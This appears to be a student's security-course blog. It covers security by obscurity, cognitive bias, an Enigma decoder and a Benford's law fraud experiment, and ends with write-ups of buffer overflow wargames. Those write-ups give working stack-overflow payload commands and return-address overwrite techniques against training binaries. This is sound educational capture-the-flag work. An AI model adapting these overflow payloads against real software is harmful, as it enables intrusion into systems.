




# Community

## Security Everywhere

Security by obscurity: someone trying to make something secure by making it secret or hidden or obscure, rather than actually making it secure

Driving around last week as a new P2 driver (not trying to flex I swear), I noticed that there was an undercover police officer wielding a speed radar gun in his car on the side of the highway. Although it seems like he was trying to stay obscure by being next to a bend in the road (security by obscurity), several drivers slowed down after noticing the suspiciously stationary vehicle when driving around the bend, resulting in an unintentional warning for drivers behind them to slow down as well (physical security). Although it is best to test vehicle speeds whilst remaining hidden to limit observation bias, having visible police vehicles in the vicinity is also effective at reducing speeds of nearby drivers, who are less likely to risk speeding and be fined. This shows that even though security by obscurity in observation was not very successful, the desired effect of reducing the number of speeding drivers was still achieved. 

# Foundations - Secrets

## Rickroll Phishing

https://zzen9201.page.link/9rEttJCvCLeM5YeC7

## Research a Cognitive Vulnerability

Availability heuristic: people overestimate the importance of information that is available to them. A person might argue that smoking is not unhealthy because they know someone who lived to 100 and smoked three packs a day. 

### How do people judge risks: Availability heuristic, affect heuristic, or both?

DOI: 10.1037/a0028279

**Summary:** The availability heuristic and the affect heuristic are key accounts of how people judge risks. The paper studies risk perception in student samples in a homogeneous cause of death such as cancer, compared with a classic set of heterogeneous causes of death, based on measures of frequency, value of statistical life and perceived risk. The paper concludes by finding that a heuristic exploiting people's direct expeerience of occurrences of risks in their social network conformed to their responses best. However, encounters with risks in the media played a negligable role in people's judgements. 

**Security Implications:** A severe security breach involving a specific cybersecurity issue could cause others to ignore/downplay other threats, which hackers can exploit. Focusing solely on the most important issue is an example of a cognitive bias which could lead to faulty conclusions and a misevaluation of risk. 

https://www.forcepoint.com/blog/insights/how-cognitive-bias-leads-reasoning-errors-cybersecurity

# Security Engineering

## Enigma Machine

Learning how an Enigma Machine works from the YouTube clips was very interesting. I deciphered Laura's favourite word manually using the Flat Machine method (pictured above), which wasn't too difficult, although initially time-consuming. I now realise the complexities of the cipher and why brute-forcing would take so much time and computational power, as demonstrated by Alan Turing during World War II. Noticing that the next part of the activity involved deciphering the codes of other's, I decided to write a program which allowed me to automatically decipher the ciphertext input, given rotor order and starting position. Although I initially planned on coding this in 30 minutes, I ended up taking around two hours trying to fix bugs related to negative moduli. In the end, I was able to decipher many more student's ciphers very quickly, as can be seen in the image below :)

Also, because Enigma machines are symmetric (works both ways), I used this program to generate my ciphertext:

- Favourite word: MIUJSQWY (BEEPBOOP)
- Reason: 🤖
- Rotor order: 1, 3, 2
- Starting position: AXE

The source code to my program can be found [here](https://github.com/axieax/enigma/blob/main/enigma.py). 

Comments:

- https://www.openlearning.com/unswcourses/courses/sec-21t1/activities/enigma?inCohort=unswcourses%2Fcourses%2Fsec-21t1%2FCohorts%2FClassOf21T1#comment-6048e3ceb1b538150c4adec6
- https://www.openlearning.com/unswcourses/courses/sec-21t1/activities/enigma?inCohort=unswcourses%2Fcourses%2Fsec-21t1%2FCohorts%2FClassOf21T1#comment-6048e375af373346b1d26d38
- https://www.openlearning.com/unswcourses/courses/sec-21t1/activities/enigma?inCohort=unswcourses%2Fcourses%2Fsec-21t1%2FCohorts%2FClassOf21T1#comment-6048e35994e004355d5b360a

## Auditing Trick

This week we started look at the patterns/lack of entropy in letter of words and sentences.  It turns out the first digit of numbers is also often/usually not uniformly random.  Yes!  Believe it or not! Specifically: in many collections of numbers the leading digit is significantly more likely to be **1** than any other digit   (Even second and subsequent digits have a slight bias away from large values like 9, and towards smaller values like 0 or 1.)

Benford's Law - likelihood of the first digit being d is proportional to $\log_{10}{(1 + \frac{1}{d})}$

**Amazingly** sometimes you can use Benford's law to detect when people are making numbers up fraudulently. When people who don't know about the law think up random numbers they usually do this with the first digit being distributed *randomly/uniformly***.** If the first digit is not 1 about 30% of the time then you should be suspicious that someone made the numbers up rather than the numbers being from an real process. Auditors sometimes investigate this.  

Ask a friend or colleague to pretend they are a [British politician](https://en.wikipedia.org/wiki/United_Kingdom_parliamentary_expenses_scandal) faking an expense account and have them email you a list of 50 made up expense amounts for which they are to be reimbursed.  They don't need to list what it is for, although they can if they feel creative, you just need the amounts.

Then count how many have "1" as the leading digit.  If around 30% do then they have fooled you, on the other hand if it is closer to 11% (i.e. 1/9) then you have caught them!

Blog about your findings, Sherlock.

For this activity, I experimented on two of my friends. Surprisingly, one of them used real data whilst the other faked his, and I was able to use Benford's law to detect fradulent expenses immediately. I wrote a program to help me calculate the frequencies for my friends' data. 

Let's start off with my friend who used real expenses (as can be seen in the image above), with most expenses ranging from a few dollars to a few hundred dollars. As can be seen below, his data fitted Benford's law quite accurately, obtaining around 30% (actually 36%) for the percentage of expenses starting with the digit 1, with other digits following a similar distribution to Benford's law. 

On the other hand, my other friend faked his data, with a lot of large numbers. As evident in the image below, his results were not very close to Benford's law, with the percentage of expenses having 1 as the leading digit closer to 11% (i.e. 1/9), at 12%, indicating fradulent expenses. 

To be honest, I was definitely very surprised at these findings. I initially thought that my friend who used data for genuine expenses would have more 1's as the leading digit due to the fact that a lot of items at Coles would be around \$10 to \$20, which may explain why his results were quite a bit higher than the expected ones from Benford's law for 1 as the leading digit. However, analysing the distribution for the other digits, it seems to follow Benford's law quite closely, quite likely indicating genuine expenses. I was also surprised at how fradulent expenses can be exposed so quickly, especially just from the number of 1's as the leading digit being close to 11%. This is definitely a potential security measure for quickly checking the validity of data. 

https://github.com/axieax/benfords-law

# Extension

## Buffer Overflow Wargames

## Basic

This one was pretty "basic". Noticing the buffer size of 32 bytes, an overflow of one byte will modify the previous single-byte variable, which we want to be 'B'. A simple `python3 -c "print('A' * 32 + 'B')" | ./basic` gave the flag COMP6841{Hey_Look_Ma_I_Made_It!}.

## Whereami

This one was similar to the previous wargame. Instead, the overflowed variable is the address of a function we want to access. Using `objdump -d whereami`, we find that the win() function is located at 080491a2. Hence, we can overflow the buffer of 64 bytes with `python2 -c "print('a' * 64 + '\xa2\x91\x04\x08')" | ./whereami` and get the flag COMP6841{Oh_Look_Youre_So_1337_now}.

## returnToSqrOne

objdump -d shows the two functions:

- iHateWritingCodeInMainBecauseTheStackFrameIsWeird at 08048484 (which gets called in main)
- PlzDontCallThisItsASecretFunction at 080484e7 (which never gets called)

<u>Method 1: Trial and error</u>

Experimenting with various payload sizes, I found that an input of 268 caused a segmentation fault (267 was fine). As such, replacing the 268th character of the payload with the memory address of the secret function was sufficient in overriding the return address. `python2 -c "print 'a' * 268 + '\xe7\x84\x04\x08'"| ./returnToSqrOne`

<u>Method 2: Examining the stack</u>

Experimenting with various payload sizes, I found that an input between 200 and 300 characters caused a segmentation fault. I constructed a payload which would allow me to identify which specific bytes referred to overwriting the return address of the iHateWritingCodeInMainBecauseTheStackFrameIsWeird function. Testing `python2 -c "print ('aaa'.join(chr(x) for x in range(ord('a'), ord('a') + 26)) + 'aaa') * 3" > payload.txt` and examining running the program with this payload in gdb, I observed that the eip value when issuing the `info frame` command was 0x61616170.  Accounting for little endian, byte 70 (in hex) followed by a bunch of a's referred to a decimal value of 112, the ascii value for 'p'. I replaced the 'paaa' substring in my payload with the memory address of the secret function, using `python2 -c "print ('aaa'.join(chr(x) for x in range(ord('a'), ord('a') + 26)) + 'aaa') * 2 + 'aaa'.join(chr(x) for x in range(ord('a'), ord('p'))) + 'aaa' + '\xe7\x84\x04\x08'"| ./returnToSqrOne` to get the flag COMP6841{STRINGS_WONT_ALWAYS_WORK}. 

<u>Method 3: Bruteforce</u>

Run the program with all the payloads and search for the flag in the output.

`for i in {200..300}; do python2 -c "print 'a' * $i + '\xe7\x84\x04\x08'"| ./returnToSqrOne; done;`

